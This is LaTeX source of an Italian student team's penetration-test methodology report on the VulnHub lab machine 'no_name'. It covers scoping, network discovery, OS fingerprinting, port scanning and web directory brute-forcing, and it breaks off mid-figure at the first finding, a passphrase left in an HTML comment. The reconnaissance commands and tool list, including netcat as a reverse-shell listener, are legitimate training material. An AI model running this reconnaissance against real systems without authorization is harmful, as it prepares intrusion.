\documentclass[11pt]{report}

\usepackage[top=2.2cm,bottom=2cm,left=2cm,right=2cm,headheight=15pt]{geometry}
\usepackage{graphicx}
\usepackage{svg}
\usepackage{fancyhdr}    
\usepackage{lastpage}
\usepackage[italian]{babel}
\usepackage{datetime}
\usepackage[colorlinks=true, linkcolor=black, urlcolor=blue!60!black, citecolor=black]{hyperref}

\usepackage{booktabs}   % tabelle professionali
\usepackage{array}      % colonne a larghezza fissa
\usepackage[dvipsnames,table]{xcolor} % colori testuali + colori per tabelle
\usepackage{colortbl}   % celle colorate
\usepackage{enumitem}   % liste personalizzate
\usepackage{multirow}
\usepackage{float}
\usepackage{longtable}
\usepackage{arydshln}
\usepackage{tcolorbox}
\usepackage{tikz}       % grafici nativi LaTeX
\usepackage[T1]{fontenc}
\usepackage{amssymb}
\usepackage{dirtree}



\definecolor{headerblue}{RGB}{0, 102, 04}
\definecolor{zonered}{RGB}{180, 0, 0}




\renewcommand{\contentsname}{Indice}
\renewcommand{\sectionmark}[1]{\markboth{#1}{#1}}

\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{\nouppercase{\leftmark}}
\fancyhead[R]{pagina \thepage\ di \pageref*{LastPage}}
\renewcommand{\headrulewidth}{0.4pt}

\begin{document}
	
	%==================================================
	%  TITLE PAGE
	%==================================================
	\begin{titlepage}
		\centering
		% Logo robusto: usa l'SVG se presente, altrimenti non blocca la compilazione
		\IfFileExists{assets/logoUnisa(1).svg}{%
			\includesvg[scale=1.5]{assets/logoUnisa(1).svg}%
		}{%
			\IfFileExists{assets/logoUnisa(1).pdf}{
\includegraphics[width=0.45\textwidth]{assets/logoUnisa(1).pdf}}{}%
		}
		\par
		\vspace{3cm}
		
		{\Huge \textbf{Metodologie Utilizzate PT}}\par
		\vspace{0.5cm}
		{\Large \textit{Academy - Cybersecurity}}\par
		\vspace{0.5cm}
		{\large Macchina Virtuale: \texttt{no\_name}}\par
		
		\vspace{6cm}
		
		{\large \textbf{Gruppo 11}}\par
		\vspace{0.15cm}
		Emiddio Ferrentino - 0612708848\par
		Daniele Manzo - 0612709599\par
		Andrea Rossomando - 0612708971\par
		
		\vfill
		{\Large A.A. 2025/2026}
	\end{titlepage}
	
	\thispagestyle{empty}
	
	%==================================================
	%  SOMMARIO
	%==================================================
	\section*{Sommario}
	Il presente documento ha lo scopo di illustrare in maniera esaustiva e prettamente operativa le metodologie adottate durante l'attività di Penetration Testing effettuata sulla macchina virtuale denominata \textbf{no\_name}. L'intero processo di valutazione ricalca le linee guida del Framework Generale per il Penetration Testing (FGPT). L'obiettivo primario è la documentazione accurata e riproducibile di ogni singola fase, evidenziando i vettori d'attacco scoperti, i comandi impartiti a terminale, gli script sviluppati e gli output significativi restituiti dai software di analisi.
	
	\vspace{1cm} 
	
	\newpage
	\tableofcontents
	\newpage
	
	%==================================================
	%  1. INTRODUZIONE
	%==================================================
	\chapter{Introduzione}
	Il documento ha lo scopo di illustrare quelle che sono le metodologie adottate durante l’attività di Penetration Testing effettuata sulla macchina virtuale denominata \textbf{no\_name}, distribuita da HacLabs, seguendo le fasi principali del FGPT. L'obiettivo principale è valutare il livello di sicurezza dell'infrastruttura attraverso un processo sistematico e riproducibile, documentando ogni fase con i relativi strumenti, comandi ed output significativi.
	
	La macchina \textbf{no\_name} è classificata come \textit{beginner/intermediate} e presenta tre flag nascoste nelle directory home degli utenti. L'accesso iniziale è deliberatamente reso complesso, mentre la privilege escalation risulta più diretta una volta ottenuta una shell.
	
	L'attività è stata condotta in un ambiente virtualizzato isolato, privo di connettività verso reti di produzione. Sono stati rispettati i seguenti vincoli operativi:
	\begin{itemize}[leftmargin=*]
		\item Scope limitato alla macchina \textbf{no\_name} (\texttt{192.168.238.7})
		\item Nessuna azione distruttiva o alterazione persistente dei sistemi
		\item Utilizzo esclusivo di tool open-source e framework standard
		\item Documentazione completa di ogni azione eseguita
	\end{itemize}
	
	L'ambiente è stato configurato su VirtualBox con networking in modalità Host-Only, consentendo la visibilità reciproca tra le macchine nella subnet \texttt{192.168.238.0/24}. Non vengono incluse ulteriori informazioni configurative in quanto non rilevanti ai fini del documento metodologico.
	
	Di seguito sono elencati tutti gli strumenti impiegati durante l'attività, suddivisi per fase di utilizzo.
	
	\vspace{0.3cm}
	\begin{table}[H]
		\centering
		\renewcommand{\arraystretch}{1.3}
		\begin{tabular}{l p{4.5cm} p{8.5cm}}
			\toprule
			\textbf{Tool} & \textbf{Versione / Note} & \textbf{Finalità} \\
			\midrule
			\texttt{Netdiscover} & v0.3.4 & ARP Scanning - Target Discovery \\
			\texttt{Nmap}        & v7.99 & Port scanning, OS fingerprinting attivo, service detection \\
			\texttt{Gobuster}    & v3.8.2 & Directory brute-forcing su web server \\
			\texttt{OWASP DirBuster} & v1.0-RC1 & Directory brute-forcing (Interfaccia Grafica) \\
			\texttt{Nessus Essentials} & Versione web & Vulnerability scanning automatizzato \\
			\texttt{OpenVAS}     & Versione web & Vulnerability scanning - report PDF \\
			\texttt{OWASP ZAP}   & Versione web & Web application scanning \\
			\texttt{Nikto}       & Versione CLI & Web server vulnerability scanner \\
			\texttt{Netcat (nc)} & Traditional & Reverse shell listener / gestione connessione \\
			\texttt{Browser / DevTools} & Firefox & Ispezione manuale del codice sorgente delle pagine web \\
			\bottomrule
		\end{tabular}
		\caption{Classificazione e finalità dello stack tecnologico utilizzato.}
		\label{tab:tools_mapping}
	\end{table}
	\vspace{0.3cm}
	
	
	%==================================================
	%  2. FASI FGPT
	%==================================================
	\chapter{Fasi FGPT}
	\section{Target Scoping}
	La fase di \textit{Target Scoping} definisce in maniera rigorosa i confini dell'attività di Penetration Testing (le \textit{Rules of Engagement}) e i vincoli operativi a cui il team di analisi deve attenersi. 
	
	Trattandosi di un ingaggio condotto su un ambiente di laboratorio di tipo CTF e non su un'infrastruttura di produzione, il perimetro autorizzato è stato concordato preventivamente e circoscritto in modo restrittivo alla singola macchina bersaglio. Qualsiasi asset o indirizzo IP non esplicitamente autorizzato è da considerarsi tassativamente fuori dal perimetro di test.
	
	Di seguito si formalizzano i limiti logici ed etici dell'ingaggio:
	
	\begin{description}[font=\color{headerblue}\bfseries, leftmargin=1cm, style=nextline]
		\item[In-Scope (Bersagli Autorizzati)] 
		L'unico nodo su cui è consentito operare attività offensive, sia passive che attive, è l'host \textbf{no\_name} (identificato nel capitolo successivo all'indirizzo IP \textbf{\texttt{192.168.238.7}}). Rientrano nel perimetro autorizzato l'enumerazione di tutti i servizi di rete esposti (su protocolli TCP e UDP), l'attacco alle applicazioni web ospitate e le tecniche di \textit{Privilege Escalation} a livello di sistema operativo locale.
		
		\item[Out-of-Scope (Bersagli Esclusi)] 
		Sono categoricamente esclusi dai test di penetrazione il gateway dell'infrastruttura virtuale (\texttt{192.168.238.2}), l'host di servizio VirtualBox (\texttt{192.168.238.6}), il nodo attaccante Kali Linux (\texttt{192.168.238.4}) e qualsiasi altro segmento di rete estraneo al target primario.
		
		\item[Metodologie non consentite] 
		Al fine di non compromettere l'integrità o la stabilità dell'ambiente di laboratorio, non è in alcun modo autorizzato l'utilizzo di tecniche che comportino la saturazione delle risorse o l'interruzione dei servizi, come attacchi di tipo \textit{Denial of Service} (DoS / DDoS). Allo stesso modo, sono escluse dal mandato tutte le metodologie basate sull'\textit{Ingegneria Sociale}.
	\end{description}
	
	
	\section{OSINT \& Pre-Engagement Intelligence}
	Prima di interagire attivamente con l'ambiente di laboratorio, la primissima fase di ricognizione informativa si è concentrata sull'analisi passiva della documentazione ufficiale fornita dal creatore dell'infrastruttura (\textit{\href{https://www.vulnhub.com/entry/haclabs-no_name,429/}{Haclabs}}) sulla piattaforma di distribuzione VulnHub. Questa attività di OSINT (Open-Source Intelligence) ha permesso di delineare le regole d'ingaggio e le peculiarità tecniche del bersaglio.\\
	Dalla scheda tecnica dell'asset sono emersi i seguenti dati cruciali per l'orientamento delle operazioni:
	
	\begin{itemize}[label=\textcolor{black}{$\blacktriangleright$}, leftmargin=*]
		\item \textbf{Obiettivo dell'Ingaggio:} L'ambiente è strutturato secondo la metodologia \textit{Boot2Root}. L'attaccante deve compromettere il sistema fino a ottenere i massimi privilegi amministrativi (\textit{root}) e individuare esattamente \textbf{3 flag} di verifica, posizionate dall'autore all'interno delle directory \texttt{home} degli utenti di sistema.
		\item \textbf{Profilazione della Difficoltà:} L'asset è classificato con un grado di difficoltà \textit{Beginner/Intermediate}.
		\item \textbf{Vettori di Attacco (Hint dell'autore):} Le note di rilascio indicano esplicitamente che l'ottenimento dell'accesso iniziale (la prima \textit{reverse shell}) richiederà uno sforzo analitico maggiore e risulterà "complicato", mentre le successive vulnerabilità per la \textit{Privilege Escalation} dovrebbero rivelarsi più dirette. Questo dettaglio suggerisce al team di concentrare il massimo sforzo temporale nell'enumerazione iniziale dei servizi esposti.
		\item \textbf{Configurazione di Rete:} La macchina è preconfigurata per acquisire automaticamente un indirizzo IP tramite protocollo DHCP, confermando la necessità di procedere con uno \textit{sweep} attivo della rete (Target Discovery) per individuarne l'esatta collocazione logica.
	\end{itemize}
	\section{Target Discovery}
	La prima fase operativa ha previsto l'identificazione degli host attivi all'interno del segmento di rete locale. Operando in un ambiente \textit{Black-Box}, è stato utilizzato il tool \texttt{netdiscover} per inviare richieste ARP (Address Resolution Protocol) in \textit{broadcast} e mappare gli indirizzi IP associati ai vari MAC address presenti nel laboratorio.
	
	\begin{tcolorbox}[colback=gray!10, colframe=black!70, title=Ricognizione di rete con Netdiscover]
		\texttt{sudo netdiscover -r 192.168.238.0/24}
	\end{tcolorbox}
	
	\begin{figure}[H] % La [H] forza l'immagine a stare ESATTAMENTE QUI
		\centering
		
\includegraphics[width=0.85\textwidth]{assets/academy_photo/targetDiscovery/netdiscover.jpeg}
		\caption{Output del comando netdiscover con l'identificazione degli host attivi.}
	\end{figure}
	L'identificazione esatta dell'host bersaglio è avvenuta tramite un processo di esclusione logica. L'output dello scanner ha rivelato la presenza di tre indirizzi IP attivi, oltre a quello della macchina attaccante (\texttt{192.168.238.4}). Avendo mappato l'infrastruttura di base, è stato possibile dedurre che l'indirizzo \texttt{192.168.238.2} corrispondeva al gateway logico assegnato di default dall'hypervisor e che l'IP \texttt{192.168.238.6} era associato a un servizio interno dell'host fisico. 
	
	Di conseguenza, l'unico indirizzo IP rimanente e sconosciuto, ovvero il \textbf{\texttt{192.168.238.7}}, è stato inequivocabilmente associato alla macchina virtuale \textbf{no\_name}. A conferma di tale deduzione, l'analisi del campo OUI (Organizationally Unique Identifier) del MAC Address ha restituito come vendor \textit{PCS Systemtechnik GmbH}, la firma digitale standard delle schede di rete emulate da Oracle VirtualBox.
	
	\begin{figure}[H]
		\centering
		\begin{tikzpicture}[
			node distance=3cm,
			box/.style={draw=headerblue, thick, fill=headerblue!5, rectangle, rounded corners, minimum width=3.5cm, minimum height=1.8cm, align=center},
			targetbox/.style={draw=zonered, thick, fill=zonered!5, rectangle, rounded corners, minimum width=3.5cm, minimum height=1.8cm, align=center},
			firewallbox/.style={draw=gray, thick, fill=gray!10, rectangle, rounded corners, minimum width=3.5cm, minimum height=1.8cm, align=center},
			line/.style={draw=black!70, thick}
			]
			% Canale di comunicazione principale (Bus della Sotto-rete)
			\draw[ultra thick, color=headerblue] (-5.5,0) -- (6.5,0);
			\node[anchor=south west] at (-5.5,0.1) {\footnotesize \textbf{Rete Isolata VirtualBox (Host-Only Mode)}};
			\node[anchor=north east] at (6.5,-0.1) {\footnotesize \texttt{192.168.238.0/24}};
			
			% Kali Linux
			\draw[line] (-3.5,0) -- (-3.5,1.2);
			\node[box] (kali) at (-3.5,2.1) {
				\textbf{Kali Linux} \\ 
				\small Attacker Machine \\ 
				\footnotesize \texttt{192.168.238.4}
			};
			
			% no_name VM
			\draw[line] (0.5,0) -- (0.5,1.2);
			\node[targetbox] (target) at (0.5,2.1) {
				\textbf{no\_name VM} \\ 
				\small Target (HacLabs) \\ 
				\footnotesize \texttt{192.168.238.7}
			};
			
			% Firewalled Host
			\draw[line] (4.5,0) -- (4.5,1.2);
			\node[firewallbox] (firewall) at (4.5,2.1) {
				\textbf{Firewalled Host} \\ 
				\small VirtualBox Service \\ 
				\footnotesize \texttt{192.168.238.6}
			};
			
			% VBox Gateway (Messo in basso per bilanciare l'immagine)
			\draw[line] (-1.5,0) -- (-1.5,-1.2);
			\node[box, draw=gray, fill=gray!5] (vbox) at (-1.5,-2.1) {
				\textbf{VBox Interface} \\ 
				\small Gateway Logico \\ 
				\footnotesize \texttt{192.168.238.2}
			};
			
		\end{tikzpicture}
		\vspace{0.3cm}
		\caption{Topologia logica dell'ambiente di laboratorio isolato con i nodi attivi rilevati.}
		\label{fig:metodologie_topologia}
	\end{figure}
	
	
	\section{Target Enumeration}
	Una volta venuti a conoscenza dell'IP della macchina target, è stato possibile passare alla fase successiva di \textit{Enumerazione}, utilizzando strumenti che consentano di ottenere una panoramica a diversi livelli di dettaglio del sistema operativo e dei servizi di rete aperti a tutti i nodi dell'infrastruttura.
	
	\subsection{OS Fingerprinting}
	Individuato l'indirizzo IP del bersaglio, il passo successivo ha riguardato la profilazione del Sistema Operativo. Al fine di simulare un approccio quanto più stealth e realistico possibile, l'attività è stata suddivisa in due fasi: una prima analisi passiva basata sull'intercettazione del traffico e una successiva validazione attiva.
	
	\subsubsection{Fingerprinting Passivo (p0f \& cURL)}
	Il fingerprinting passivo si basa sull'ascolto silente dei pacchetti di rete, senza inviare payload intrusivi al target, analizzando le firmas dello stack TCP/IP e i banner applicativi. Per questa fase è stato configurato in ascolto il tool \texttt{p0f} sull'interfaccia di rete locale.
	
	\begin{tcolorbox}[colback=gray!10, colframe=black!70, title=Avvio sniffing passivo]
		\texttt{sudo p0f -i eth1}
	\end{tcolorbox}
	
	Per generare traffico legittimo da far analizzare allo sniffer, è stata effettuata una semplice richiesta HTTP alla radice del web server del target utilizzando \texttt{curl}.
	
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.85\textwidth]{assets/academy_photo/targetEnumeration/passive_fingerprint_curl.png}
		\caption{Richiesta cURL e risposta HTTP con esposizione del form HTML del target.}
		\label{fig:passive_curl}
	\end{figure}
	
	L'intercettazione di questo scambio di pacchetti ha permesso a \texttt{p0f} di estrarre preziose informazioni diagnostiche. Sebbene l'analisi iniziale del pacchetto SYN+ACK (firmas TCP) non fosse riuscita a determinare con esattezza il kernel, l'ispezione della risposta HTTP ha rivelato esplicitamente la firma del server web.
	
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.85\textwidth]{assets/academy_photo/targetEnumeration/passive_fingerprint_two.png}
		\caption{Output di p0f inerente all'estrazione dei metadati del server web Apache.}
		\label{fig:passive_p0f_metadata}
	\end{figure}
	
	Come si evince dall'output (\texttt{raw\_sig = ... Apache/2.4.29 (Ubuntu)}), il sistema remoto esegue una distribuzione \textbf{Ubuntu Linux}. Un'ulteriore deduzione tecnica permette di restringere il campo: la versione 2.4.29 di Apache è storicamente il pacchetto predefinito distribuito sui repository di \textbf{Ubuntu 18.04 LTS (Bionic Beaver)}.
	
	\subsubsection{Fingerprinting Attivo (Nmap)}
	Per validare le ipotesi raccolte passivamente, si è proceduto con un OS Fingerprinting attivo tramite \texttt{Nmap}. Questa tecnica, seppur più rumorosa, invia pacchetti TCP/UDP malformati e sonda le risposte specifiche (RFC compliance) per determinare l'esatta architettura del kernel.
	
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\textwidth]{assets/academy_photo/targetEnumeration/os_fingerprint_nmap.jpeg}
		\caption{Risultato dell'OS Fingerprinting attivo e identificazione euristica del kernel tramite Nmap.}
		\label{fig:active_nmap_os}
	\end{figure}
	
	I risultati della scansione attiva hanno confermato le deduzioni precedenti:
	\begin{itemize}[label=\textcolor{black}{$\blacktriangleright$}, leftmargin=*]
		\item L'host è effettivamente un sistema basato su \textbf{Linux}.
		\item La famiglia del kernel rilevata appartiene alle release \textbf{4.X / 5.X} (nello specifico, compatibile con \textit{Linux 4.15 - 5.19}), dato perfettamente coerente con il kernel standard di un'installazione Ubuntu 18.04.
		\item La scansione ha inoltre confermato l'apertura della \textbf{porta 80/tcp} associata al servizio HTTP.
	\end{itemize}
	
	\subsection{Services Enumeration}
	Con il fingerprinting siamo riusciti a estrarre non solo informazioni sul sistema operativo (Ubuntu) ma anche a scoprire la presenza di un servizio HTTP sulla porta 80 basato su Apache 2.4.29 e da ciò dedurre una possibile e molto probabile versione del SO che la macchina target ospita (Ubuntu 18.04 LTS).
	È ora necessario comprendere se il target possieda altri servizi esposti e valutare eventualmente un'attività di ricognizione su tali servizi nell'eventualità che questi presentino vulnerabilità note.
	\newline
	Con l'ausilio di \texttt{Nmap} effettuiamo \textit{port scanning} su \texttt{no\_name} su tutte e 65535 porte:
	
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.7\textwidth]{assets/academy_photo/targetEnumeration/port_scanning_nmap.jpeg}
		\caption{Scansione completa del range porta TCP (1-65535) eseguita con Nmap.}
		\label{fig:nmap_full_scan}
	\end{figure}
	
	Dai risultati si evince che l'unica porta aperta è la 80 e, come volevasi dimostrare, Nmap è riuscito a intuire sia la versione di Apache che il sistema operativo del target. A questo punto è chiaro che il focus del team nella prossima fase del framework sarà l'individuazione di \texttt{vulnerabilità web}.
	
	\subsection{Web Directory Enumeration (Gobuster \& Owasp Dirbuster)}
	Avendo a portata di mano solo ed esclusivamente un web server, risulta fondamentale per il team individuare la directory tree del target, affinché sia possibile avviare l'attività di ispezione delle pagine accessibili pubblicamente e valutare la presenza di elementi interessanti durante la fase di analisi nonché condurre un'attività di directory bruteforcing.
	Utilizzando \texttt{gobuster} e due \textit{wordlist} (\texttt{common.txt} e \texttt{big.txt})
	
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.6\textwidth]{assets/academy_photo/targetEnumeration/directory_scanning_gobuster.jpeg}
		\caption{Directory Brute-Forcing iniziale tramite Gobuster con l'ausilio della wordlist \texttt{common.txt}.}
		\label{fig:gobuster_common}
	\end{figure}
	
	Con \texttt{common.txt} siamo riusciti a individuare due pagine accessibili:
	\begin{itemize}[label=\textcolor{black}{$\blacktriangleright$}, leftmargin=*]
		\item \textbf{\texttt{admin}}, molto probabilmente un'area che potrebbe contenere informazioni sensibili sull'amministratore del server o sul server stesso, valutare un'ispezione manuale della pagine e del codice html.
		\item  \textbf{\texttt{index.php}}, la pagina di default del server Apache (diventa tale quando si installa l'ambiente php ed ha priorità maggiore rispetto a \texttt{index.html}).
	\end{itemize}
	Sembra lecito utilizzare una wordlist un po' più grande (\texttt{big.txt}) e valutare la presenza di qualche pagina che può essere sfuggita in questa prima fase:
	
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.65\textwidth]{assets/academy_photo/targetEnumeration/directory_scanning_pro.jpeg}
		\caption{Directory Brute-Forcing esteso con Gobuster tramite la wordlist \texttt{big.txt}.}
		\label{fig:gobuster_big}
	\end{figure}
	
	Questo secondo scan ha individuato una nuova pagina accessibile (\texttt{\textbf{/superadmin.php}}), che molto probabilmente rappresenta il fulcro dell'intera opera di Penetration Testing in quanto possibile interfaccia di amministrazione. Ma andiamo con calma e passiamo all'individuazione tramite \texttt{OWASP - Dirbuster} della gerarchia dei file del server ottenendo il seguente risultato:
	
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.8\textwidth]{assets/academy_photo/targetEnumeration/dirscan_dirbuster.jpeg}
		\caption{Schermata dei risultati strutturali in modalità Tree View estratti da OWASP DirBuster.}
		\label{fig:dirbuster_gui_tree}
	\end{figure}
	
	Possiamo schematizzare l'output di Dirbuster con l'ausilio del seguente grafico ad albero e integrarlo con quello di gobuster per ottenere una panoramica del directory tree del web server accurata:
	
	\begin{figure}[htbp]
		\centering
		\begin{tcolorbox}[colback=white, colframe=headerblue, title=Mappatura Logica del Web Server (Output DirBuster), width=0.8\textwidth, fonttitle=\bfseries]
			\dirtree{%
				.1 / \DTcomment{\textcolor{ForestGreen}{\textbf{[200 OK]}}} .
				.2 admin/ \DTcomment{\textcolor{ForestGreen}{\textbf{[200 OK]}}} .
				.2 icons/ \DTcomment{\textcolor{zonered}{[403 Forbidden]}} .
				.2 index.php \DTcomment{\textcolor{ForestGreen}{\textbf{[200 OK]}}} .
				.3 small/ \DTcomment{\textcolor{zonered}{[403 Forbidden]}} .
				.4 .ht* (file di sistema Apache) \DTcomment{\textcolor{zonered}{[403]}} .
				.3 .ht* (file di sistema Apache) \DTcomment{\textcolor{zonered}{[403]}} .
				.2 server-status \DTcomment{\textcolor{zonered}{[403 Forbidden]}} .
				.2 superadmin.php/ \DTcomment{\textcolor{ForestGreen}{\textbf{[200 OK]}}} .
				.2 .ht* (file di sistema Apache) \DTcomment{\textcolor{zonered}{[403]}} .
			}
		\end{tcolorbox}
		\vspace{0.2cm}
		\caption{Grafico strutturale definitivo della gerarchia dei file esposti dal server web del target.}
		\label{fig:dirbuster_tree}
	\end{figure}
	L'analisi dell'albero evidenzia la presenza di tre pagine web, rappresentando di fatto la superficie d'attacco registrata e analizzabile dal team. Tutte queste pagine hanno restituito un codice di stato \textbf{200 OK}.
	\section{Vulnerability Assessment}
	Terminata l'enumerazione della superficie d'attacco, la fase di \textit{Vulnerability Assessment} si è concentrata sull'analisi approfondita dei servizi esposti, combinando tecniche di ispezione manuale (per l'individuazione di vulnerabilità logiche) e scansioni automatizzate (per il rilevamento di \textit{misconfiguration} note). L'obiettivo primario di questa fase è stato quello di confermare e catalogare i vettori di attacco sfruttabili per ottenere l'accesso iniziale al sistema (\textit{foothold}).
	
	\subsection{Information Disclosure e Steganografia (\texttt{/admin})}
	L'ispezione manuale ha preso avvio dalla directory \texttt{/admin}. L'analisi del codice sorgente HTML della pagina ha rivelato una grave vulnerabilità di tipo \textit{Information Disclosure}: all'interno dei tag di commento del markup HTML è stata incautamente lasciata in chiaro la stringa \texttt{passphrase:harder}.
	
	\begin{figure}[H]
		\centering
		% Prima colonna (sinistra)
		\begin{minipage}{0.48\textwidth}
			\centering
